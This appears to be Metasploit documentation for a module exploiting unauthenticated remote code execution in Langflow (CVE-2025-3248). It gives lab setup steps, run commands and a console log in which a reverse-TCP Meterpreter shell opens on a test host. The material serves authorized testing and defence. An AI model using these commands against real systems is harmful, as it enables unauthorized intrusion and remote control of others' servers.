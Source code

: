 ## Vulnerable Application

Langflow versions prior to 1.3.0 are susceptible to code injection in the /api/v1/validate/code endpoint.
A remote and unauthenticated attacker can send crafted HTTP requests to execute arbitrary code.

The vulnerability affects:

    * Langflow < 1.3.0 even if authentication is enabled
    * Langflow <= 1.3.2 (latest at the time of this writing) if authentication isn't enabled.

This module was successfully tested on:

    * Langflow 1.3.2 installed with Docker (authentication isn't enabled)


### Installation
1. `git clone https://github.com/langflow-ai/langflow.git`

2. `cd langflow/docker_example`

3. `docker compose up`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/langflow_unauth_rce_cve_2025_3248`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/multi/http/langflow_unauth_rce_cve_2025_3248
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/http/langflow_unauth_rce_cve_2025_3248) > options

Module options (exploit/multi/http/langflow_unauth_rce_cve_2025_3248):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    7860             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python payload



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/langflow_unauth_rce_cve_2025_3248) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.3.2 detected and authentication is disabled. Which is vulnerable.
[*] Sending stage (24772 bytes) to 192.168.56.16
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:57118) at 2025-04-12 10:00:32 +0900

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer        : 06d3984f101d
OS              : Linux 6.8.0-56-generic #58-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 14 15:33:28 UTC 2025
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```
